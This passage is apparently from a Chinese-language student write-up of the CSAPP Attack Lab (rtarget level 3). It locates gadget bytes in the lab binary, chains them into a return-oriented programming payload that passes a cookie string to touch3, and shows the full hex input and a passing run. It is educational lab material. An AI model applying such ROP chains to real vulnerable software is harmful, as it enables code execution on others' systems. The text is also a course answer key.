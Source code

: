 地址 0x401a13 执行的指令为

```assembly
movl %ecx, %esi
ret
```

以下过程略，可以通过机器码 89 c2, 89 d1 来实现 %eax -> %edx -> %ecx

```assembly
0000000000401a40 <addval_487>:
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq
```

```assembly
0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3
```

且指令 84 c0, 08 db 均不改变寄存器的值，故不影响最终的结果。综上，我们完成了

%rax -> %rsi : %eax -> %edx -> %ecx -> %esi

执行加法指令后再把 %rax 赋给 %rdi 即可。

最后再跳转至 ``touch3`` 。

综上所述，满足条件的指令为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 # movq %rsp, %rax  ret
c5 19 40 00 00 00 00 00 # movq %rax, %rdi  ret
ab 19 40 00 00 00 00 00 # popq %rax        ret
48 00 00 00 00 00 00 00 # 存储偏移量值，赋给 %rax
42 1a 40 00 00 00 00 00 # movl %eax, %edx  ret
69 1a 40 00 00 00 00 00 # movl %edx, %ecx  ret
13 1a 40 00 00 00 00 00 # movl %ecx, %esi  ret
d6 19 40 00 00 00 00 00 # leq  (%rdi,%rsi,1),%rax  ret
c5 19 40 00 00 00 00 00 # movq %rax, %rdi  ret
fa 18 40 00 00 00 00 00 # 跳转到touch3
35 39 62 39 39 37 66 61 # 0x5561dca8 字符串ascii码
00 00 00 00 00 00 00 00 # 字符串以\0x 结尾
```

当我们确定了所有指令后，才能得到偏移量，为 9 * 8 = 0x48。输入上述指令，成功！

```shell
root@b2ba8c04f8ed:/csapp/target1# ./hex2raw < p2_l3.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 42 1A 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00
```
